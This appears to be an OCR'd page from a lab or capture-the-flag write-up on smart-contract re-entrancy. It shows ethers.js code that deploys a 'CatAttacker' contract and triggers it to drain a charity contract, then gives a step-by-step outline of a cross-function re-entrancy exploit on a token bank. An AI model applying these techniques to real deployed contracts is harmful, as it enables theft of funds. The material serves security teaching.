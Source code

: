 \documentclass[12pt]{article}
\begin{document}
\noindent
JavaScript code to start the attack:

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// 1) The player deploys the Attacker contract
catAttacker = await (await ethers.getContractFactory("CatAttacker", deployer))
       .deploy(catCharity.target)

// 2) The player calls `attack()` with a small donation to set up re-entrancy
//    We'll donate 0.5 ETH
await catAttacker.connect(player).attack({ value: 5n * 10n ** 17n });
// By the end of this transaction, the attacker contract's fallback
// will keep calling `claimRefund()` in a loop until the charity is drained.
\end{verbatim}
\end{minipage}

\subsection*{Task 2: CTU Token Bank}

In this task, the objective is to exploit a cross-function re-entrancy vulnerability in the \texttt{CTUTokenBank} contract. Here's how the exploit works:
\begin{enumerate}
    \item The attacker deposits Ether into the \texttt{CTUTokenBank}, which increases their balance in the contract.
    \item The attacker then calls the \texttt{withdrawEther} function, which is protected by a re-entrancy lock. However, while the lock is active, the attacker exploits a function that allows them to buy CTU Tokens (\texttt{buyTokens}) using the previous balance.
    \item The attacker repeats this process, buying more tokens and withdrawing Ether until they have drained the bank of its Ether balance.
    \item Finally, the attacker withdraws all remaining funds and transfers the stolen Ether to themselves.
\end{enumerate}
\end{document}
